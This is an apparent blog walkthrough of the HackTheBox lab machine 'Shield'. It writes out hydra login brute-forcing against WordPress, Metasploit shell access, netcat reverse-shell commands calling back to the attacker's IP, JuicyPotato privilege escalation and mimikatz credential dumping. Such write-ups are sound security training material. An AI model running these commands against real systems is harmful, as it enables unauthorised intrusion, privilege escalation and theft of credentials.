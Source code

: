 *2021-08-16*

*kimm3*
# Walkthrough: Shield
Platform: HackTheBox, Starting Point

Difficulty: Very Easy

This is the fourth box in the starting point series.

The boxes build on each other so make sure to save credentials and other intersting information that you find.

## Info gathering and enumeration
`export IP=10.10.10.29`
`sudo nmap $IP -p- -O -Pn --disable-arp-ping -v -oA nmap/init-scan`

![init-scan](assets/markdown-img-paste-20210816115112464.png)

A http and a sql service.

![http-start](assets/markdown-img-paste-20210816115142149.png)

A standard IIS page. Use ffuf to enumerate further.

`ffuf -u "http://10.10.10.29/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ`

![wordpress-ffuf](assets/markdown-img-paste-20210816115716830.png)

A wordpress site. If we browse to it belongs to a electric car manufacturer named SHIELDS UP. If there's a wordpress, there's a wp-login site. If we can get in there as an admin, we can use metasploit to land a shell/meterpreter.

![user-pass](assets/markdown-img-paste-20210816120702703.png)

I've put together a list of usernames and passwords previously encountered in the series, removing service accounts such as www-data and postgres. It's 24 combinations so lets use hydra to make it go quicker. The site responses differently if the user exists or not so I've previously put togheter a command to quickly fuzz usernames. It goes:
```
hydra -L users.txt -p test 10.10.10.29 http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&testcookie=1:F=Invalid username."
```

![user-admin](assets/markdown-img-paste-20210816121950696.png)

The user admin is found. Let's try with our available passwords.

```
hydra -l admin -P pass.txt $IP http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&testcookie=1:F=<title>Log In"
```

![admin-pw](assets/markdown-img-paste-20210816122159515.png)

The last one worked. Let's go to the page and log in.

![wp-login-success](assets/markdown-img-paste-2021081612241311.png)
## Fothoold
Easiest way to land a shell from here is using metasploit.

Fire up msfconsole and search for 'wp admin'.

![wp-admin-search](assets/markdown-img-paste-20210816122731895.png)

**Useful msfconsole commands**

`search <term>` - make a search
`use <nr/name>` - use that exploit
`info` - show info about current exploit, you can see the options you have to set here
`set <option> <value>` - set an option to a value, like the USERNAME to 'admin'.
`run` - run the exploit

![meterpreter](assets/markdown-img-paste-20210816123354267.png)

*If the exploit runs and fails to get a meterpreter, try to set the LHOST option to your tunnel IP, as it might default to something else.*

**Useful meterpreter commands**
```
ls
cd
pwd
sysinfo
getuid
upload
download
shell
```

![meterp-basic](assets/markdown-img-paste-20210816123717186.png)

The shell seems to hang for me every time I send a command, not sure if intended from the box creator or just a temporary bug.

I tried som different shells, with pretty much the same results. You can use it to enumerate the file system at least. For example you can see that the user folder contains a new user, sandra. Let's try to get a proper shell to continue enum and find a privesc. In the wordpress wp-content folder there's a folder called uploads, I uploaded nc.exe(`/usr/share/windows-resources/binaries/` in kali) and executed it with meterpreter:

`execute -f nc.exe -a "-e powershell 10.10.16.96 4242"`

*(I changed the name of nc to myownnc.exe due many other users doing the same thing with nc.exe)*

![sysinfo](assets/markdown-img-paste-20210817131013890.png)

![seimpersonateprivilege](assets/markdown-img-paste-20210817130944316.png)

From here it's easier to continue searching for exploits. The user has the "SeImpersonatePriviliege" token enabled. This could make it vulnerable to one of the potato exploits(google it).
## Privilege escalation
Ref: https://github.com/ohpe/juicy-potato

From the meterpreter, upload the JuicyPotato.exe and a bat file containing the command to start a reverse powershell with netcat(same as we did before, but this time it will be run as system account).


*I've renamed my files to not mix them with other users doing the same thing. jpjp.exe is the JuicyPotato.exe*

Create shell-script:

`echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell 10.10.16.96 1333 > myownshell.bat`


![jpjpexe](assets/markdown-img-paste-2021081713384024.png)

![roottxt](assets/markdown-img-paste-20210817133828292.png)
## Post expliotation
Ref: https://github.com/gentilkiwi/mimikatz

We can use mimikatz and `sekurlsa::logonpasswords` to dump passwords.

![sandra](assets/markdown-img-paste-20210817135802388.png)
